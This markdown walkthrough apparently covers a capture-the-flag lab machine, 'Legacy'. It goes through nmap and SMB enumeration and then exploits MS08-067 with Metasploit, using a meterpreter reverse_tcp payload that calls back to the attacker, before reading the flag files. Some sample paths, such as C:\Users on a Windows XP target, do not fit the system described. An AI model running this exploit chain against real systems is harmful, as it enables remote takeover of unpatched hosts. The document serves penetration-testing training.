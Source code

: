 # Windows Legacy Exploitation Walkthrough

## Overview
This guide details the steps for identifying and exploiting a vulnerable **Windows Legacy** machine, using enumeration, SMB vulnerability scanning, and exploitation with Metasploit.

---

## 1. Identifying the Target OS
Run the following **ping** command to determine the OS based on TTL values:

```bash
sudo ping -c 1 10.10.10.4
```

- **TTL < 65** → Linux
- **TTL 65-128** → Windows
- **TTL > 128** → Network appliance

Since the TTL is **127**, the target is a **Windows** machine.

---

## 2. Running an Nmap Scan
Perform an **aggressive full-port scan** with service detection:

```bash
sudo nmap -vvv -Pn -sCV --reason -T4 -p 0-65535 -oN legacy.nmap 10.10.10.4
```

- **`-sCV`** → Runs default scripts and version detection
- **`-Pn`** → Treats the host as online
- **`-T4`** → Aggressive timing
- **`-oN legacy.nmap`** → Saves output to a file

---

## 3. Enumerating SMB (Server Message Block)

### **Using enum4linux**
```bash
sudo enum4linux -a 10.10.10.4
```

### **Checking SMB Shares**
```bash
sudo smbmap -H 10.10.10.4
```
```bash
sudo smbclient --no-pass --list=\\10.10.10.4\
```
```bash
sudo smbclient -N -L =\\10.10.10.4\
```

---

## 4. Scanning for SMB Vulnerabilities

Find relevant **SMB vulnerability scripts**:
```bash
ls /usr/share/nmap/scripts | grep smb | grep vuln
```

Run **Nmap SMB Vulnerability Scan**:
```bash
sudo nmap -vvv -Pn -sCV -T4 -p 139,445 --script smb-vuln* -oN legacy_smb.nmap 10.10.10.4
```

---

## 5. Exploiting MS08-067 (SMB Vulnerability)

Start **Metasploit** and run the exploit:
```bash
msfconsole
```
```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set RPORT 445
exploit
```

---

## 6. Post-Exploitation

### **Meterpreter Commands**
```bash
sysinfo   # Get system information
shell     # Get interactive command shell
whoami    # Check current user
```

### **Get User Flag**
Navigate to `C:\Users\Public\Desktop` and retrieve the flag:
```bash
cd C:\Users\Public\Desktop
type user.txt
```

### **Get Admin Flag**
Navigate to `C:\Users\Administrator\Desktop` and retrieve the flag:
```bash
cd C:\Users\Administrator\Desktop
type root.txt
```

---

## 7. Proof of Concept (PoC)
### **1. Nmap Scan Output**
```
PORT      STATE SERVICE       VERSION
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows XP microsoft-ds
```  
_Nmap confirms SMB is open on ports 139 and 445._

### **2. SMB Enumeration Output**
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```  
_Shares found using enum4linux._

### **3. Successful Exploit Execution**
```bash
meterpreter > sysinfo
Computer    : LEGACY-PC
OS          : Windows XP (Build 2600, Service Pack 3)
Architecture: x86
Meterpreter : x86/windows
```
_Meterpreter session successfully opened!_

### **4. Retrieving Flags**
```bash
meterpreter > shell
C:\Users\Public\Desktop> type user.txt
FLAG{user_flag_here}

C:\Users\Administrator\Desktop> type root.txt
FLAG{admin_flag_here}
```
---

## Summary
✅ **Ping TTL** confirms Windows
✅ **Nmap** finds open ports (likely SMB 445)
✅ **Enum4linux** and **smbmap** list SMB shares
✅ **Nmap SMB Vuln Scan** confirms **MS08-067**
✅ **Metasploit** exploits MS08-067 for **meterpreter shell**
✅ **User & Admin flags retrieved**

### 🚀 Exploitation complete!
